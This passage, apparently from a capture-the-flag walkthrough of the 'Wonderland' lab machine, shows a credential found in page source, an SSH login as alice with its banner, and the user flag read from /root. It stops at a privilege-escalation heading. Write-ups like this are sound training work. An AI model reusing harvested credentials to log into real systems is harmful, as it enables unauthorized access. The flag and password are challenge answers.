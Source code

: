 - Found a credential, `alice : HowDothTheLittleCrocodileImproveHisShiningTail` 

## Exploitation

### User Flag

- Secure shelled into the machine as alice.

```console
❯ ssh alice@10.10.197.179
The authenticity of host '10.10.197.179 (10.10.197.179)' can't be established.
ED25519 key fingerprint is SHA256:Q8PPqQyrfXMAZkq45693yD4CmWAYp5GOINbxYqTRedo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:61: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.197.179' (ED25519) to the list of known hosts.
alice@10.10.197.179's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Nov 24 12:48:25 UTC 2022

  System load:  0.08               Processes:           84
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 27%                IP address for eth0: 10.10.197.179
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$
```

- `/home/alice` has `root.txt`, so user flag should be under `/root/`

```console
alice@wonderland:~$ ls -l
total 8
-rw------- 1 root root   66 May 25  2020 root.txt
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
```



## Privilege Escalation (rabbit)
